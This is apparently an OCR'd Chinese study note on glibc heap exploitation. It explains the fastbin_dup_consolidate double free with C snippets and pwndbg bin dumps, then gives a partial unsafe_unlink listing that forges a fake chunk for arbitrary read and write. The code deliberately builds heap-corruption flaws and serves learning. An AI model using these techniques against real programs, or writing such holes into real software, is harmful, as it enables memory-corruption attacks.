 具体分析写在注释内。目的是利用double free构造一个fake chunk来完成任意地址的读写，这次是使用的是栈上的地址。

## fastbin_dup_consolidate

```c
void* p1 = malloc(0x40);
void* p2 = malloc(0x40);
free(p1);

void* p3 = malloc(0x400);
free(p1);
```

第一次free后：

```bash
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x602000 ◂— 0x0
```

`p3`malloc后，触发了`malloc_consolidate()`，导致fastbin中的chunk被移到对应的smallbin中。

```bash
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0

pwndbg> smallbins
smallbins
0x50: 0x602000 —▸ 0x7ffff7dd1bb8 (main_arena+152) ◂— 0x602000
```

此时`free(p1)`可以绕过fastbin中topchunk的检查，又新增一个p1所指向的chunk。导致smallbin和fastbin中同时包含两个相同的chunk，造成double free漏洞。

## unsafe_unlink

```c
uint64_t *chunk0_ptr;

int main()
{
    int malloc_size = 0x80; //we want to be big enough not to use fastbins
    int header_size = 2;

    // 1
    chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
    uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1

    // 2
    chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
    chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);

    // 3
    uint64_t *chunk1_hdr = chunk1_ptr - header_size;
    chunk1_hdr[0] = malloc_size;
    chunk1_hdr[1] &= ~1;
```